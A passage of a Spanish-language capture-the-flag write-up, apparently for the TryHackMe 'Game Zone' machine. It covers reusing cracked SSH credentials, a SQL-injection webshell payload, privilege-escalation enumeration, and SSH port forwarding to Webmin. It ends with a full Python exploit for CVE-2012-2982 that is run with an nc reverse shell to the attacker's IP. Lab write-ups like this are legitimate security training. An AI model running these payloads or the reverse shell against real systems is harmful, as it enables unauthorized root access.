Ahora podemos responder estas preguntas: 



ahora que ya tenemos credenciales, probemos si esas nos serviran en el ssh que tienen abierto:

```
ssh agent47@10.10.144.74
```


Las credenciales nos sirvieron. Pero, si tenemos una inyeccion sql y no tenemos ssh. Podriamos obtener una shell con esa inyeccion? 

La respuesta es si y al saber que se tiene un servidor apache y que tenemos php disponible, podemos subir un cmd y ejecutarlo desde nuestro navegador y luego transformarlo en una shell. 

Veamoslo:

```sql
'union select null,"<?php+system($_GET['cmd']);?>",null into OUTFILE "/var/www/html/webshell.php" -- -
```

esto, nos dice lo siguiente:


Existe una restriccion para obtener una shell de esta manera y por lo tanto seguiremos el camino que ya conseguimos con el ssh. Eso si,  somos root en la base de datos por ende, podriamos jugar con los privilegios y otras cosas para empezar a leer archivos e investigar mas. Pero, por ahora seguiremos con el ssh. 

---
# Privilege Escalation

En la escalada, tryhackme nos guia un poco hacia los servicios internos que tiene esta maquina. Pero, como procedimiento, revisaremos lo basico que es saber si tenemos permisos con sudo, que nos arroja id, la version del kernel, SUID, capabilities, tareas cron, escritura en carpetas y por ultimo, la version del sistema para corroborar lo que decia al inicio con ubuntu 16.04 xenial

### id
```bash
agent47@gamezone:~$ id
uid=1000(agent47) gid=1000(agent47) groups=1000(agent47),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)

```

### SUID


```bash
agent47@gamezone:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/at
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/bin/ntfs-3g
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```

El SUID interesante es pkexec. Pero, si hacemos sudo -l nos daremos cuenta que no contamos con permisos de sudo por ende la elevacion de privilegios no va por ahi. 
### Sistema

```bash
cat /etc/os-release

NAME="Ubuntu"
VERSION="16.04.6 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.6 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
```

Y efectivamente. Es un ubuntu xenial 16.04

### Kernel

```bash
uname -a
Linux gamezone 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linu
```

la version me dice que si hay exploits disponibles veamos que nos dice searchsploit:



Se puede ver que si hay disponibles pero no para nuestra version exacta. El problema de ejecutar exploits para elevar privilegios con el kernel, es que las maquinas se cuelgan al ejecutarlo y es algo muy agresivo si es que no lo probamos de forma local antes de ejecutarlo en remoto. Pero, tenemos la informacion de que nuestro kernel si puede ser vulnerable si adaptamos alguno de estos exploits que mas se nos acerquen. 

### Directorios con permisos de escritura

```bash
find / -writable -type d 2>/dev/null
/var/crash
/var/tmp
/var/lib/php/sessions
/var/lib/lxcfs/proc
/var/lib/lxcfs/cgroup
/var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1000.slice/user@1000.service
/var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1000.slice/user@1000.service/init.scope
/proc/2442/task/2442/fd
/proc/2442/fd
/proc/2442/map_files
/sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service
/sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service/init.scope
/tmp
/tmp/.X11-unix
/tmp/.XIM-unix
/tmp/.ICE-unix
/tmp/.Test-unix
/tmp/.font-unix
/home/agent47
/home/agent47/.cache
/run/user/1000
/run/user/1000/systemd
/run/lock
/dev/mqueue
/dev/shm

```

### Capabilities

```bash
agent47@gamezone:~$ /usr/sbin/getcap -r / 2>/dev/null 
agent47@gamezone:~$ 

```

No tenemos nada en capabilities

### Tareas programadas

```bash
agent47@gamezone:~$ ls -lah /etc/cron*
-rw-r--r-- 1 root root  722 Apr  5  2016 /etc/crontab

/etc/cron.d:
total 24K
drwxr-xr-x  2 root root 4.0K Aug 14  2019 .
drwxr-xr-x 98 root root 4.0K Aug 19  2019 ..
-rw-r--r--  1 root root  589 Jul 16  2014 mdadm
-rw-r--r--  1 root root  670 Jun 22  2017 php
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder
-rw-r--r--  1 root root  191 Aug 14  2019 popularity-contest

/etc/cron.daily:
total 64K
drwxr-xr-x  2 root root 4.0K Aug 16  2019 .
drwxr-xr-x 98 root root 4.0K Aug 19  2019 ..
-rwxr-xr-x  1 root root  539 Jun 11  2018 apache2
-rwxr-xr-x  1 root root  376 Mar 31  2016 apport
-rwxr-xr-x  1 root root 1.5K Oct  9  2018 apt-compat
-rwxr-xr-x  1 root root   77 Jan 21  2015 apt-show-versions
-rwxr-xr-x  1 root root  355 May 22  2012 bsdmainutils
-rwxr-xr-x  1 root root 1.6K Nov 26  2015 dpkg
-rwxr-xr-x  1 root root  372 May  5  2015 logrotate
-rwxr-xr-x  1 root root 1.3K Nov  6  2015 man-db
-rwxr-xr-x  1 root root  539 Jul 16  2014 mdadm
-rwxr-xr-x  1 root root  435 Nov 18  2014 mlocate
-rwxr-xr-x  1 root root  249 Nov 12  2015 passwd
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder
-rwxr-xr-x  1 root root 3.4K Feb 26  2016 popularity-contest
-rwxr-xr-x  1 root root  214 Dec  7  2018 update-notifier-common

/etc/cron.hourly:
total 12K
drwxr-xr-x  2 root root 4.0K Aug 14  2019 .
drwxr-xr-x 98 root root 4.0K Aug 19  2019 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder

/etc/cron.monthly:
total 12K
drwxr-xr-x  2 root root 4.0K Aug 14  2019 .
drwxr-xr-x 98 root root 4.0K Aug 19  2019 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder

/etc/cron.weekly:
total 24K
drwxr-xr-x  2 root root 4.0K Aug 14  2019 .
drwxr-xr-x 98 root root 4.0K Aug 19  2019 ..
-rwxr-xr-x  1 root root   86 Apr 13  2016 fstrim
-rwxr-xr-x  1 root root  771 Nov  6  2015 man-db
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder
-rwxr-xr-x  1 root root  211 Dec  7  2018 update-notifier-common
```

Nosotros particularmente no tenemos ninguna tarea programada. 

### Red

```bash
agent47@gamezone:~$ ss -tuln
Netid State      Recv-Q Send-Q                                                                      Local Address:Port                                                                                     Peer Address:Port              
udp   UNCONN     0      0                                                                                       *:10000                                                                                               *:*                  
udp   UNCONN     0      0                                                                                       *:68                                                                                                  *:*                  
tcp   LISTEN     0      128                                                                                     *:10000                                                                                               *:*                  
tcp   LISTEN     0      128                                                                                     *:22                                                                                                  *:*                  
tcp   LISTEN     0      80                                                                              127.0.0.1:3306                                                                                                *:*                  
tcp   LISTEN     0      128                                                                                    :::80                                                                                                 :::*                  
tcp   LISTEN     0      128                                                                                    :::22                                                                                                 :::*            

```

En el escaneo con nmap, tenemos el puerto 22 y el 80. Pero, el puerto 10000? 

Ese debemos traerlo y revisarlo en nuestra maquina. 

```html
gent47@gamezone:~$ curl -X GET http://localhost:10000
<!doctype html public "-//W3C//DTD HTML 3.2 Final//EN">
<html>
<head>
<link rel='stylesheet' type='text/css' href='/unauthenticated/style.css' />
<script type='text/javascript' src='/unauthenticated/toggleview.js'></script>
<script>
var rowsel = new Array();
</script>
<script type='text/javascript' src='/unauthenticated/sorttable.js'></script>
<meta http-equiv="Content-Type" content="text/html; Charset=iso-8859-1">
<title>Login to Webmin</title></head>
<body bgcolor=#ffffff link=#0000ee vlink=#0000ee text=#000000    onLoad='document.forms[0].pass.value = ""; document.forms[0].user.focus()'>
<table class='header' width=100%><tr>
<td id='headln2l' width=15% valign=top align=left></td>
<td id='headln2c' align=center width=70%><font size=+2></font></td>
<td id='headln2r' width=15% valign=top align=right></td></tr></table>
<p><center>

<form class='ui_form' action='/session_login.cgi' method=post >
<input class='ui_hidden' type=hidden name="page" value="/">
<table class='shrinkwrapper' width=40% class='loginform'>
<tr><td>
<table class='ui_table' width=40% class='loginform'>
<thead><tr class='ui_table_head'><td><b>Login to Webmin</b></td></tr></thead>
<tbody> <tr class='ui_table_body'> <td colspan=1><table width=100%>
<tr class='ui_table_row'>
<td valign=top colspan=2 align=center class='ui_value'>You must enter a username and password to login to the Webmin server on <tt>localhost</tt>.</td>
</tr>
<tr class='ui_table_row'>
<td valign=top  class='ui_label'><b>Username</b></td>
<td valign=top colspan=1  class='ui_value'><input class='ui_textbox' name="user" value="" size=20  ></td>
</tr>
<tr class='ui_table_row'>
<td valign=top  class='ui_label'><b>Password</b></td>
<td valign=top colspan=1  class='ui_value'><input class='ui_password' type=password name="pass" value="" size=20  ></td>
</tr>
<tr class='ui_table_row'>
<td valign=top  class='ui_label'><b> </b></td>
<td valign=top colspan=1  class='ui_value'><input class='ui_checkbox' type=checkbox name="save" value="1"  id="save_1" > <label for="save_1">Remember login permanently?</label>
</td>
</tr>
</tbody></table></td></tr></table>
</td></tr>
</table>

<input class='ui_submit' type=submit value="Login">
<input type=reset value="Clear">
</form>
</center>

<script>
if (window != window.top) {
        window.top.location = window.location;
        }
</script>
</div><p>
<br>
</body></html>
```
Al hacerle un curl al localhost:10000, nos damos cuenta que nos entrega una pagina web. 

para traerlo, solo aplicamos este comando:

```bash
ssh -L 80:localhost:10000 agent47@10.10.144.74

```

Esto significa que en nuestra maquina en el puerto 80 veremos lo que hay en el puerto 10000 de la maquina victima. 

esto es lo que vemos:



si usamos las credenciales del ssh, podemos entrar aqui:


Con esto ya podemos responder las preguntas de la exposicion del servicio:



ahora nos falta escalar privilegios. Para ello, debemos revisar la version de este webmin y ver que nos trae. 

Nos trajo este script:

```python
#!/usr/bin/env python3
# https://github.com/JohnHammond/CVE-2012-2982/blob/master/CVE-2012-2982.py
import argparse
import random
import string
import sys
import urllib.parse

import requests


def get_args():

    parser = argparse.ArgumentParser()

    parser.add_argument(
        "-t", "--target", help="The host of the Webmin 1.580 target", required=True
    )
    parser.add_argument(
        "-p",
        "--port",
        help="The port that hosts Webmin 1.580",
        required=False,
    )
    parser.add_argument(
        "-U",
        "--username",
        help="The username to login to Webmin",
        required=True,
    )
    parser.add_argument(
        "-P",
        "--password",
        help="The password to login to Webmin",
        required=True,
    )
    parser.add_argument(
        "-c",
        "--command",
        help="The command to run on the target",
        required=True,
    )
    parser.add_argument(
        "-s",
        "--ssl",
        help="Whether or not we should use SSL",
        action="store_true",
    )

    args = parser.parse_args()
    return args


class Exploit:
    def __init__(self, args):
        self.args = args
        self.validate_args()

        self.username = self.args.username
        self.password = self.args.password
        self.command = self.args.command

    def run(self):

        print(f"[+] targeting host {self.host} on port {self.port}")
        self.url = f"{self.schema}{self.host}:{self.port}"

        login_session = self.login()
        if not login_session:
            sys.stderr.write(
                f"[!] failed to login with user '{self.username}' and pw '{self.password}'\n"
            )
            return False

        print(
            f"[+] successfully logged in with user '{self.username}' and pw '{self.password}'"
        )

        self.execute_command()
        print(f"[+] executed '{self.command}' on '{self.host}'")

    def validate_args(self):
        self.host = self.args.target

        potential_schemas = ["http://", "https://"]

        if not self.args.ssl:
            for schema in potential_schemas:
                if self.host.startswith(schema):
                    break
            else:
                self.schema = potential_schemas[0]
        else:
            self.schema = potential_schemas[bool(args.ssl)]

        self.host = self.host.removeprefix(schema)

        if not self.args.port:
            if ":" in self.args.target:
                self.host, self.port = self.host.split(":")
            else:
                sys.stderr.write(
                    "[!] port is required (either pass -p or use IP:PORT syntax)"
                )
                exit(-1)
        else:
            self.host = self.args.target.removesuffix("/")
            self.port = self.args.port

        self.host = self.host.removesuffix(f":{self.port}")

    def login(self):
        self.session = requests.Session()

        try:
            response = self.session.post(
                self.url + "/session_login.cgi",
                data={
                    "user": self.username,
                    "pass": self.password,
                },
                cookies={"testing": "1"},
                allow_redirects=False,
            )
        except (ConnectionRefusedError, requests.exceptions.ConnectionError) as e:
            sys.stderr.write(f"[!] error: {e.args[0]}\n")
            exit(-1)

        if "sid" in self.session.cookies:
            return not self.session.cookies["sid"] == 1

    def execute_command(self):
        random_string = "".join(
            [random.choice(string.ascii_letters) for _ in range(random.randint(3, 12))]
        )

        self.session.get(
            self.url
            + f"/file/show.cgi/bin/{random_string}|{urllib.parse.quote(self.command)}|"
        )


if __name__ == "__main__":
    exploit = Exploit(get_args())
    success = exploit.run()

    if not success:
        sys.exit(1)
```

Con este exploit, se puede escalar privilegios sin metasploit:

lo nombramos y usamos el siguiente comando:

```bash
python jm.py -t localhost -p 80 -U agent47 -P videogamer124 -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.13.62.1 443 >/tmp/f"
```

Usamos el mkfifo y nos ponemos en escucha con netcat:

```bash
sudo nc -lvnp 443 
```

finalmente recibimos la shell:

```bash
root@gamezone:/usr/share/webmin/file/# 
```

le hacemos un tratamiento y vemos con el comando which si tenemos python o python3. Si lo tenemos, podemos seguir con los comandos de abajo y si no tenemos python podemos usar **script /dev/null -c bash**

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
export SHELL=bash
```

luego, presionamos CTRL+ Z 

```bash
stty raw -echo;fg
reset xterm
```

Con esto, tenemos una bash totalmente funcional que al momento de presionar CTRL + C no se nos va a caer. Tambien, podemos usar CTRL +L e ir atras y adelante en la bash y ya es mas comodo trabajar. Con esto, ya podemos decir que hemos tomado el control de esta maquina! 


---
# Trophy & Loot
user.txt:




root.txt: 

